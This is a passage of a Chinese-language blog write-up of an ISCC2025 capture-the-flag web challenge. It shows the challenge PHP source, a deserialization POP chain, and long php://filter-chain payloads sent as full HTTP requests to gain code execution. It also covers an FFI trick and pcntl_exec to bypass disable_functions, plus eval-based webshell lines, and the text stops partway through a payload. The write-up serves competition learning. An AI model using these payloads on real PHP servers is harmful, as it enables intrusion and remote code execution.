



+++
title = "ISCC2025国赛"
slug = "iscc2025-national-competition"
description = "购物中心怎么做啊"
date = "2025-05-16T10:04:32"
lastmod = "2025-05-16T10:04:32"
image = ""
license = ""
categories = ["赛题"]
tags = []
+++

## 谁动了我的奶酪

输入`tom`拿到源码

```php
<?php
ini_set('display_errors', 0);
error_reporting(0);

echo "<h2>据目击鼠鼠称，那Tom坏猫确实拿了一块儿奶酪，快去找找吧！</h2>";
error_reporting(0);
//include("clue.php");
$code = file_get_contents(__FILE__);
highlight_string($code);

class Tom{
    public $stolenCheese;
    public $trap;
    public function __construct($file='cheesemap.php'){
        $this->stolenCheese = $file;
        echo "Tom盯着你，想要守住他抢走的奶酪！"."<br>";
    }
    public function revealCheeseLocation(){
        if($this->stolenCheese){
            $cheeseGuardKey = "cheesemap.php";
            echo nl2br(htmlspecialchars(file_get_contents($this->stolenCheese)));
            $this->stolenCheese = str_rot3($cheeseGuardKey);
        }
    }
    public function __toString(){
        if (!isset($_SERVER['HTTP_USER_AGENT']) || $_SERVER['HTTP_USER_AGENT'] !== "JerryBrowser") {
            echo "<h3>Tom 盯着你的浏览器，觉得它不太对劲……</h3>";
        }else{
            $this->trap['trap']->stolenCheese;
            return "Tom";
        }
    }

    public function stoleCheese(){
        $Messages = [
            "<h3>Tom偷偷看了你一眼，然后继续啃奶酪...</h3>",
            "<h3>墙角的奶酪碎屑消失了，它们去了哪里？</h3>",
            "<h3>Cheese的香味越来越浓，谁在偷吃？</h3>",
            "<h3>Jerry皱了皱眉，似乎察觉到了什么异常……</h3>",
        ];
        echo $Messages[array_rand($Messages)];
        $this->revealCheeseLocation();
    }
}

class Jerry{
    protected $secretHidingSpot;
    public $squeak;
    public $shout;
    public function searchForCheese($mouseHole){
        include($mouseHole);
    }
    public function __invoke(){
        $this->searchForCheese($this->secretHidingSpot);
    }
}

class Cheese{
    public $flavors;
    public $color;
    public function __construct(){
        $this->flavors = array();
    }
    public function __get($slice){
        $melt = $this->flavors;
        return $melt();
    }
    public function __destruct(){
        unserialize($this->color)();
        echo "Where is my cheese?";
    }
}

if (isset($_GET['cheese_tracker'])) {
    unserialize($_GET['cheese_tracker']);
}elseif(isset($_GET["clue"])){
    $clue = $_GET["clue"];
    $clue = str_replace(["T", "h", "i", "f", "！"], "*", $clue);
    if (unserialize($clue)){
        unserialize($clue)->squeak = "Thief!";
        if(unserialize($clue)->shout === unserialize($clue)->squeak)
            echo "cheese is hidden in ".$where;
        else
            echo "OHhhh no!find it yourself!";
    }
}

?>
```

```php
<?php
class Tom{
    public $stolenCheese;
    public $trap;
}

class Jerry{
    public $secretHidingSpot;
    public $squeak;
    public $shout;
}

class Cheese{
    public $flavors;
    public $color;
}

$a = new Cheese();
$a->color = new Tom();
$a->color->trap = ["trap"=>new Cheese()];
//$a->color->trap["trap"]->flavors = "phpinfo";
$a->color->trap["trap"]->flavors =new Jerry();
//$a->color->trap["trap"]->flavors->secretHidingSpot="php://filter/convert.base64-encode/resource=clue.php";
$a->color->trap["trap"]->flavors->secretHidingSpot="php://filter/convert.base64-encode/resource=flag_of_cheese.php";


echo urlencode(serialize($a));
```

就得到第一段flag了，但是如何getshell呢，这里我最开始尝试的是filter-chain，`python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'`

```http
GET /Y2hlZXNlT25l.php?cheese_tracker=O%3A6%3A%22Cheese%22%3A2%3A%7Bs%3A7%3A%22flavors%22%3BN%3Bs%3A5%3A%22color%22%3BO%3A3%3A%22Tom%22%3A2%3A%7Bs%3A12%3A%22stolenCheese%22%3BN%3Bs%3A4%3A%22trap%22%3Ba%3A1%3A%7Bs%3A4%3A%22trap%22%3BO%3A6%3A%22Cheese%22%3A2%3A%7Bs%3A7%3A%22flavors%22%3BO%3A5%3A%22Jerry%22%3A3%3A%7Bs%3A16%3A%22secretHidingSpot%22%3Bs%3A4414%3A%22php%3A%2F%2Ffilter%2Fconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.DEC.UTF-16%7Cconvert.iconv.ISO8859-9.ISO_6937-2%7Cconvert.iconv.UTF16.GB13000%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM869.UTF16%7Cconvert.iconv.L3.CSISO90%7Cconvert.iconv.UCS2.UTF-8%7Cconvert.iconv.CSISOLATIN6.UCS-4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.851.UTF-16%7Cconvert.iconv.L1.T.618BIT%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSA_T500.UTF-32%7Cconvert.iconv.CP857.ISO-2022-JP-3%7Cconvert.iconv.ISO2022JP2.CP775%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM891.CSUNICODE%7Cconvert.iconv.ISO8859-14.ISO6937%7Cconvert.iconv.BIG-FIVE.UCS-4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.851.UTF-16%7Cconvert.iconv.L1.T.618BIT%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.iconv.UCS-2.OSF00030010%7Cconvert.iconv.CSIBM1008.UTF32BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.CP1163.CSA_T500%7Cconvert.iconv.UCS-2.MSCP949%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.UTF16LE%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.iconv.UTF16.EUCTW%7Cconvert.iconv.8859_3.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF32%7Cconvert.iconv.L6.UCS-2%7Cconvert.iconv.UTF-16LE.T.61-8BIT%7Cconvert.iconv.865.UCS-4LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.MAC.UTF16%7Cconvert.iconv.L8.UTF16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSGB2312.UTF-32%7Cconvert.iconv.IBM-1161.IBM932%7Cconvert.iconv.GB13000.UTF16BE%7Cconvert.iconv.864.UTF-32LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L6.UNICODE%7Cconvert.iconv.CP1282.ISO-IR-90%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.L4.UTF32%7Cconvert.iconv.CP1250.UCS-2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF16%7Cconvert.iconv.ISO6937.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF32%7Cconvert.iconv.L6.UCS-2%7Cconvert.iconv.UTF-16LE.T.61-8BIT%7Cconvert.iconv.865.UCS-4LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.MAC.UTF16%7Cconvert.iconv.L8.UTF16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSIBM1161.UNICODE%7Cconvert.iconv.ISO-IR-156.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.INIS.UTF16%7Cconvert.iconv.CSIBM1133.IBM943%7Cconvert.iconv.IBM932.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.base64-decode%2Fresource%3Dphp%3A%2F%2Ftemp%22%3Bs%3A6%3A%22squeak%22%3BN%3Bs%3A5%3A%22shout%22%3BN%3B%7Ds%3A5%3A%22color%22%3BN%3B%7D%7D%7D%7D HTTP/1.1
Host: 112.126.73.173:10086
Pragma: no-cache
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cache-Control: no-cache
User-Agent: JerryBrowser


```

成功打出phpinfo，但是不能getshell，disable_function为`system,exec,shell_exec,passthru,proc_open,popen`，我之前写过一篇FFI绕过disable的文章，大家可以去看看，这里我直接用了 

```php
<?php
$ffi = FFI::cdef("int php_exec(int type,char *cmd);");
$ffi->php_exec(3, "ls /");
```

所以生成filter链子的时候改一下命令即可

```
python3 php_filter_chain_generator.py --chain '<?php $ffi=FFI::cdef("int php_exec(int type,char *cmd);");$ffi->php_exec(3,"ls");?>'
```

但是这样子payload就太长了，打不了，而且环境的`allow_url_include=off`，所以`php://input`也用不了，也就转移不了参数，

```
python3 php_filter_chain_generator.py --chain '<?php eval($_GET[1]);?>'
```

想接着找怎么绕过，找到一个`pcntl_exec`，但是很遗憾，phpinfo里面没有`–enable-pcnt`

```php
<?php pcntl_exec("/bin/bash", array("/tmp/b4dboy.sh"));?>
//<?php pcntl_exec("/bin/bash", array("$_POST[1]"));?>
```

```sh
#/tmp/b4dboy.sh
#!/bin/bash
ls -l /
```

```
python3 php_filter_chain_generator.py --chain '<?php eval($_POST[1]);?>'
```

后来我想到可以再次在POST传参进行include传参来再继续套`filter`链的时候，本地成功了

```http
POST /1.php?cheese_tracker=O%3A6%3A%22Cheese%22%3A2%3A%7Bs%3A7%3A%22flavors%22%3BN%3Bs%3A5%3A%22color%22%3BO%3A3%3A%22Tom%22%3A2%3A%7Bs%3A12%3A%22stolenCheese%22%3BN%3Bs%3A4%3A%22trap%22%3Ba%3A1%3A%7Bs%3A4%3A%22trap%22%3BO%3A6%3A%22Cheese%22%3A2%3A%7Bs%3A7%3A%22flavors%22%3BO%3A5%3A%22Jerry%22%3A3%3A%7Bs%3A16%3A%22secretHidingSpot%22%3Bs%3A4992%3A%22php%3A%2F%2Ffilter%2Fconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.UTF16%7Cconvert.iconv.WINDOWS-1258.UTF32LE%7Cconvert.iconv.ISIRI3342.ISO-IR-157%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.ISO2022KR.UTF16%7Cconvert.iconv.L6.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.865.UTF16%7Cconvert.iconv.CP901.ISO6937%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSA_T500.UTF-32%7Cconvert.iconv.CP857.ISO-2022-JP-3%7Cconvert.iconv.ISO2022JP2.CP775%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.IBM891.CSUNICODE%7Cconvert.iconv.ISO8859-14.ISO6937%7Cconvert.iconv.BIG-FIVE.UCS-4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.UTF16LE%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.iconv.UCS2.UTF8%7Cconvert.iconv.8859_3.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP861.UTF-16%7Cconvert.iconv.L4.GB13000%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP869.UTF-32%7Cconvert.iconv.MACUK.UCS4%7Cconvert.iconv.UTF16BE.866%7Cconvert.iconv.MACUKRAINIAN.WCHAR_T%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.iconv.UCS-2.OSF00030010%7Cconvert.iconv.CSIBM1008.UTF32BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.PT.UTF32%7Cconvert.iconv.KOI8-U.IBM-932%7Cconvert.iconv.SJIS.EUCJP-WIN%7Cconvert.iconv.L10.UCS4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.ISO88597.UTF16%7Cconvert.iconv.RK1048.UCS-4LE%7Cconvert.iconv.UTF32.CP1167%7Cconvert.iconv.CP9066.CSUCS4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.INIS.UTF16%7Cconvert.iconv.CSIBM1133.IBM943%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP861.UTF-16%7Cconvert.iconv.L4.GB13000%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.ISO88597.UTF16%7Cconvert.iconv.RK1048.UCS-4LE%7Cconvert.iconv.UTF32.CP1167%7Cconvert.iconv.CP9066.CSUCS4%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.PT.UTF32%7Cconvert.iconv.KOI8-U.IBM-932%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.UTF8.CSISO2022KR%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.JS.UNICODE%7Cconvert.iconv.L4.UCS2%7Cconvert.iconv.UCS-2.OSF00030010%7Cconvert.iconv.CSIBM1008.UTF32BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSGB2312.UTF-32%7Cconvert.iconv.IBM-1161.IBM932%7Cconvert.iconv.GB13000.UTF16BE%7Cconvert.iconv.864.UTF-32LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.BIG5HKSCS.UTF16%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.PT.UTF32%7Cconvert.iconv.KOI8-U.IBM-932%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.BIG5HKSCS.UTF16%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM921.NAPLPS%7Cconvert.iconv.855.CP936%7Cconvert.iconv.IBM-932.UTF-8%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.8859_3.UTF16%7Cconvert.iconv.863.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF16%7Cconvert.iconv.ISO6937.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CP1046.UTF32%7Cconvert.iconv.L6.UCS-2%7Cconvert.iconv.UTF-16LE.T.61-8BIT%7Cconvert.iconv.865.UCS-4LE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.MAC.UTF16%7Cconvert.iconv.L8.UTF16BE%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.CSIBM1161.UNICODE%7Cconvert.iconv.ISO-IR-156.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.INIS.UTF16%7Cconvert.iconv.CSIBM1133.IBM943%7Cconvert.iconv.IBM932.SHIFT_JISX0213%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.iconv.SE2.UTF-16%7Cconvert.iconv.CSIBM1161.IBM-932%7Cconvert.iconv.MS932.MS936%7Cconvert.iconv.BIG5.JOHAB%7Cconvert.base64-decode%7Cconvert.base64-encode%7Cconvert.iconv.UTF8.UTF7%7Cconvert.base64-decode%2Fresource%3Dphp%3A%2F%2Ftemp%22%3Bs%3A6%3A%22squeak%22%3BN%3Bs%3A5%3A%22shout%22%3BN%3B%7Ds%3A5%3A%22color%22%3BN%3B%7D%7D%7D%7D HTTP/1.1
Host: rb3.top
User-Agent: JerryBrowser
Content-Type: application/x-www-form-urlencoded

1=include('php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.